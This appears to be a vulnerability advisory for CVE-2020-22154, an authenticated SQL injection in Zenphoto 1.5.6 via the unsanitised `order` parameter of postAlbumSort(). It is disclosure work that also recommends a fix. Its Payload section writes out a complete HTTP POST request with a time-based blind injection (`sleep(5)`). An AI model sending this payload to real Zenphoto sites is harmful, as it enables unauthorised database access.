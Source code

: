 ```yaml
---
cve: "CVE-2020-22154"
title: "Authenticated SQL injection in Zenphoto v1.5.6 and prior"
date: 2020-02-12
tags:
- cve
- sql injection
---
```

Zenphoto 1.5.6 was discovered to contain a SQL injection via the `postAlbumSort()` function in `/zp-core/admin-functions.php`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22154

<hr />

**Description:**  
The function `postAlbumSort()` triggers a SQL query using the POST parameter `order`, unfortunately his value is not sanitized when building the query.

**Details:**  
File: `/zp-core/admin-functions.php`  
Function: `postAlbumSort()`  
Parameter: `order`  

**Payload:**  
```
POST /zp-core/admin-edit.php?page=edit&action=savealbumorder
XSRFToken=bfc6ec5b3fdffce396ca60b824b68e3eb18a5d4c&checkallaction=noaction&newtag_mass_tags_=&massownerselect=admin&order=id%5B2 and (select sleep(5))%23%5D%3Dnull%26id%5B1%5D%3Dnull&update=Save+Order
```

**Recommendation:**  
Cast the value to integer.

**PoC:**  
![cve-2020-22154 Zenphoto sqli](/images/cve-2020-22154.png)
